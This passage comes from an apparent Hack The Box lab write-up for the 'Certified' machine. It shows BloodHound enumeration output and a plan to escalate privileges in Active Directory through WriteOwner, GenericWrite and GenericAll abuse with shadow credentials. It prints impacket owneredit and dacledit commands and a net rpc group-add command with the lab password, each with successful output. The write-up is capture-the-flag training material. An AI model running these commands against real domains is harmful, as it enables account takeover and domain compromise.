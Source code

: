 ```
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 1 computers
INFO: Found 0 trusts
INFO: Done in 00M 02S
```

With data collected, let's start Bloodhound (I'm using docker) and upload what we have gathered.
```
┌──(magicrc㉿perun)-[~/attack]/HTB Certified
└─$ curl -L https://ghst.ly/getbhce > docker-compose.yml && \
sudo docker compose up
```

With little bit of pathfinding we have found following attack vector:
![Bloodhound](images/bloodhound.png)

Our objective will be to escalate to `ca_operator` thru `management_svc`, hoping that we could escalate further to `Administrator` due to certificate template misconfiguration. We will do so in the following steps:
* Add `judith.mader` to `management` group - `WriteOwner` abuse.
* As `judith.mader` add shadow credentials to `management_svc` - `GenericWrite` abuse.
* As `management_svc` add shadow credentials to `ca_operator` - `GenericAll` abuse.

Let's execute first part of our plan, starting with add `judith.mader` to `management` group.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ impacket-owneredit -dc-ip certified.htb -action write -target management -new-owner judith.mader certified.htb/judith.mader:judith09 && \
impacket-dacledit -dc-ip certified.htb -action write -rights FullControl -principal judith.mader -target management certified.htb/judith.mader:judith09 && \
net rpc group addmem management judith.mader -U certified.htb/judith.mader%judith09 -S certified.htb
[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
[*] DACL backed up to dacledit-20250314-235519.bak
[*] DACL modified successfully!
```

